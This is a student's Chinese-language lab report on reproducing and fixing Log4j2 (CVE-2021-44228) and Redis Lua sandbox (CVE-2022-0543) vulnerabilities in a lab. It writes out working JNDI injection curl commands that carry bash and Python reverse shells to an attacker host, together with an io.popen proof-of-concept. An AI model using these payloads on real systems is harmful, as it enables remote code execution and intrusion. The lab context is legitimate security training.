

# 网络空间安全实践期末报告

# 作者：吴雪峰
# 学号：202212063020

## 第一个实验：log4j2

### 实验准备

首先进行环境部署


验证能够成功打开网页


按照视频将docker中的demo.jar文件复制到本机上


### 靶机ip

__192.168.8.129__

### 攻击者ip 

__192.168.8.132__

### 进行shell反弹测试

#### 按照教程进行攻击者与靶机准备。

在进行shell反弹时遇到问题：网站并不接受POST请求；可以接受get请求，但是无法验证shell反弹内容

课件中所给的命令使用-d强制指定POST请求，
```bash
curl http://192.168.8.129:33863/hello -d 'payload=${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```
但是在本地的多次测试中，无法使用POST请求，在改用GET请求时，可以正常返回"ok"，但是没有反弹shell反应。
```bash
curl "http://192.168.8.129:33863/hello?payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/443 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')}"
```
~~__可能是网络问题，后续会再次进行测试。__~~

改用强制使用GET请求，能够监听到LDAP请求，说明漏洞触发成功，但是无法反弹shell


换为尝试python3的反弹shell
```bash
# 生成 Python3 反弹 Shell 的 Base64 编码
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'

# 编码并构造 Payload
encoded_payload=$(echo -n "$payload" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')

# 发送请求
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
ok     
```

在JNDI中得到如下输出
```bash
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
```
同时仍然无法完成反弹shell。根据以上日志可知，问题出在参数解析错误（Incorrect params），这表明 JNDIExploit 无法正确处理发送的 Base64 编码后的 Python 反弹 Shell 命令。

在反复尝试多次之后，发现可能的原因是JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，导致无法正确解析 Base64 编码后的命令。
尝试调整，移除填充符 = 并简化编码：
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:48217/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```


### 在以上两步中经历的curl修改

#### 1. 尝试移除“=”填充符

```bash
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'
encoded_payload=$(echo -n "$payload" | base64 -w 0 | tr -d '=' | sed 's/+/%252B/g; s/\//%252F/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
```
JNDIExploit 反复报错 Incorrect params。
__问题分析__
Base64 编码嵌套问题：Payload 是 bash -c {echo,...}|{base64,-d}|{bash,-i} 的 Base64 编码，但 JNDIExploit 似乎无法处理这种嵌套结构。日志显示工具接收到了 LDAP 查询，但在解析 TomcatBypass/Command/Base64/... 时失败。
特殊字符干扰：Base64 字符串中的 =（填充符）和 |、{、} 等符号可能被错误解析。

#### 2.简化命令格式，避免使用 bash -c {echo,...}|... 这种复杂结构，改用直接命令

```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
JNDIExploit 接收到了正确的 Base64 编码命令（YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ== 解码后为 bash -i >& /dev/tcp/192.168.8.132/7777 0>&1），但仍然报错 Incorrect params。
__问题分析__
JNDIExploit 工具本身对参数的处理上可能有一定问题。

#### 3.调整 Base64 编码方式，移除“=”填充符并简化特殊符号处理

```bash
cmd='bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=')
curl -G "http://192.168.8.129:58468/hello" \ --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
报错及问题与第一次的问题类似，不多赘述。

#### 4.调整 Base64 编码格式。JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，尝试移除填充符“=”并简化编码。得到完成的代码。

### ~~作业途中偶遇哈吉网站，拒绝POST请求疯狂哈气，拼尽全力，无法战胜~~
我们胜利了...暂时的

### 漏洞缓解与绕过测试

现在使用直接修改容器中文件的办法来尝试进行缓解

首先为了工作目录不影响其他文件，创建临时文件夹work<br>
<br>
然后把原来的demo.jar直接解包到当前文件下<br>
<br>
现在我们拿到了demo.jar的文件，我们来看其中的文件，发现有log4j的.core文件，核心文件，包含有部分漏洞信息，我们对其进行修改<br>
<br>
<br>
修改完成之后，我们尝试使用查找命令来看有没有删除目标内容<br>
<br>
其后，再添加全局禁用，来保证一定的安全<br>
<br>
然后，我们将文件重新打包<br>


### 验证缓解效果

我们使用
```bash
curl "http://192.168.8.129:51707/search?q=\${jndi:ldap://192.168.8.132:7777/a}"
```
来验证效果<br>
<br>
请求成功到达了目标服务器（192.168.8.129:51707）/search 路径存在或被 Web 框架处理了。但并没有在监听窗口（nc 监听）看到任何连接，也没有出现服务器尝试访问 192.168.8.132:1389

### 绕过

再次使用上次的命令’
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:51707/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
发现还是可以有反弹shell<br>
上文中已经发现log4j不能访问，此处可能是因为有其他JNDI被执行，或者在其他的组件的core中仍然存在其他的JNDI执行的部分

### 修复

选择了升级的选项，在升级之后再次执行以上内容，发现攻击者主机上没有内容输出，说明无法访问到容器内，此时显然已经修复

## 第二个实验：DMZ

### 环境

* kali
* vulfocus
* Redis Lua沙盒绕过 命令执行（CVE-2022-0543）
  ip 192.168.6.133:24984

### 实验

#### 首先安装镜像


#### 工具验证

针对redis这个工具，我们需要用到redis-cli这个包，通过验证是否存在


#### 连接环境并且开始尝试

__首先要连接环境__


__第一次尝试__

由于在上帝视角下，我们知道这个漏洞是lua脚本执行的漏洞，我们首先尝试直接使用命令来把脚本执行直接禁用
<br>
我们发现这个命令被拒绝了，这有可能是因为vulfocus为了增加一定的难度，所以我们尝试一下是否是config命令被完全禁用
<br>
我们可见：
```bash
192.168.6.133:24984> config help
1) CONFIG <subcommand> arg arg ... arg. Subcommands are:
2) GET <pattern> -- Return parameters matching the glob-like <pattern> and their values.
3) SET <parameter> <value> -- Set parameter to value.
4) RESETSTAT -- Reset statistics reported by INFO.
5) REWRITE -- Rewrite the configuration file.
```
所以我们知道config命令还可以使用，可能只有一部分config命令被禁用。

__第二次尝试__

所以，我们选择进入容器内进行操作，尝试更改docker的配置文件进行更改

<br>
由于redis容器比较简陋，没有编辑工具，我们安装vim这个工具<br>
<br>
接下来我们查看并且修改配置文件，添加以下两行
```bash
rename-command EVAL ""
rename-command EVALSHA ""
```

其后，由于我们需要启用配置文件，重启容器进行尝试，为了防止重启之后配置文件回退，我们备份一份<br>
在重启文件之后我们再查看一次文件，没有被回退，直接进入下一part

__漏洞验证__

现在，我们使用主机连接redis容器，尝试进行脚本执行
<br>
在图中，我们首先使用了以下命令
```bash
eval "return 1" 0
```
这是一个eval脚本执行的最简单的命令尝试，回显中无法执行eval命令，说明漏洞已经修复<br>
其次，我们尝试一下漏洞利用常见的POC
```
eval 'return io.popen("id"):read("*a")' 0
```
上图中可以看到也不可以执行，说明漏洞利用完全封堵

# 实验心得体会

通过本次《网络空间安全实践》的两个实验，我对网络攻击与防御的实际操作流程、漏洞利用原理以及防御措施有了更深刻的理解和体会。实验涵盖了当前网络安全领域两个非常典型的案例：Log4j2 漏洞（CVE-2021-44228）与 Redis Lua 沙盒绕过漏洞（CVE-2022-0543），这两个实验都从攻击和防御两个角度进行深入探索，极大地提升了我动手实践与安全思维能力。
__一、Log4j2 实验心得__
在整个过程中，我遇到了很多问题，比如反弹 shell 无法成功、JNDIExploit 参数解析失败、Base64 编码不兼容等。在每次失败后，我都尝试调整 curl 请求、优化 payload 编码方式、分析 JNDI 日志输出，从中逐步排查错误。尤其是在探索 payload 的构造逻辑时，我深刻体会到攻击者如何利用 URL 编码、协议特性来绕过检测，并最终实现远程命令执行。
通过这个实验，我意识到网络安全攻防的核心在于对细节的极致关注和对原理的深入把握。每一个小小的编码符号、命令参数、服务器响应行为，都可能成为决定攻防成败的关键因素。
__二、Redis 漏洞实验心得__
在 Redis 的实验中，我首次尝试使用 redis-cli 工具配合漏洞复现，并亲自配置 docker 容器、修改 redis.conf 配置文件，从而禁用关键命令（eval、evalsha）以达到防御目的。这个过程中，我切实体会到了运维层的防御策略，例如“命令重命名”如何简单有效地封堵漏洞攻击入口。与 Log4j2 漏洞不同的是，Redis 漏洞的修复更偏向系统配置层面，因此这个实验也让我对如何从系统运维角度加强服务安全有了更直观的认识。
实验中，我也尝试在容器中直接操作 redis 配置文件、安装 vim 工具、备份配置防止回滚等操作。这些细节让我明白了：在实际生产环境中，漏洞防护不仅是技术问题，更需要全面考虑系统部署、权限控制、运维流程等多个层面的协同。
__三、整体体会__
这两个实验不单单是漏洞复现这么简单，它们更像是一次小型的实战演练。从漏洞定位、攻击构造、反复测试，到最终修复并验证成功，每一步都非常贴近真实环境。它不仅锻炼了我的技术能力，也让我对网络安全人员在真实工作中所面对的问题有了更真实的感受。